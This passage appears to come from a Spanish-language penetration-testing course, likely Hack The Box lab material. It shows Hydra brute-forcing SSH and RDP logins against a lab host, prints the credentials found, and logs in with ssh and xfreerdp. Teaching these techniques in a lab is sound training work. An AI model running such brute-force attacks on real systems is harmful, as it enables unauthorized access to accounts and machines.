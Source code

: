 Podemos utilizar Hydra para forzar ataques de fuerza bruta en SSH.

```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197
```

```csharp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak...
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
```

Para iniciar sesión a través de SSH, podemos usar el cliente OpenSSH:

```bash
sherlock28@htb[/htb]$ ssh user@10.129.42.197
```

```css
The authenticity of host '10.129.42.197' can't be established...
user@WINSRV C:\Users\user>
```

## Protocolo de Escritorio Remoto (RDP)

RDP permite el acceso remoto a sistemas Windows a través del puerto TCP 3389. Proporciona acceso completo al entorno gráfico, incluidos los dispositivos de entrada y salida del terminal remoto.

### **Hydra - RDP**

También podemos usar Hydra para realizar ataques de fuerza bruta en RDP.

```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```

```less
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] host: 10.129.42.197   login: user   password: password
```

### **xFreeRDP**

Para conectarse al servidor RDP desde Linux, podemos usar el cliente `xfreerdp`:

```bash
sherlock28@htb[/htb]$ xfreerdp /v:<target-IP> /u:<usuario> /p:<contraseña>
```

```bash
sherlock28@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password
```

```mathematica
Do you trust the above certificate? (Y/T/N) Y
```
